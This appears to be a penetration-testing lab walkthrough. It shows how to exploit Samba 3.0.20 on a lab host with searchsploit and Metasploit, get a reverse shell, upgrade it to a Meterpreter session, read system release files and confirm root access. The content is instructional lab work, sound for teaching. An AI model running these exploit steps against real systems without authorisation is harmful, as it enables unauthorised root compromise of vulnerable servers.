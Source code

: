 This should tell us the exact version of Samba running on the target. The target system is running Samba 3.0.20.

```
searchsploit samba 3.0.20
```

```
search samba 3.0.20
use 0
show info
set RHOSTS 10.2.17.132
exploit 
```

We can utilize the reverse shell that we will be provided with. Alternatively, we can also upgrade that into a Meterpreter session. We should be able to obtain a reverse shell.

```
ls -al
cat /etc/*issue
cat /etc/*release
```

Put this in the background.

List out our sessions.

```
sessions
```

In order to upgrade a session to a Meterpreter session:

```
sessions -u 1
```

We receive a Meterpreter session.

```
sessions
```

On session id 2, we have a Meterpreter. And not only that, we also have obtained root access on the target system. 

```
sessions 2
```

```
sysinfo
getuid
```

We have root access on the target system, which means we don't need to elevate our privileges.

And apart from the bind shell listener that we were able to gain access to, this is the only exploit that has given us root access right out of the box. And I wanted to highlight it for that reason, primarily because you can skip over the privilege escalation section if you are able to exploit the target via this exploit module.
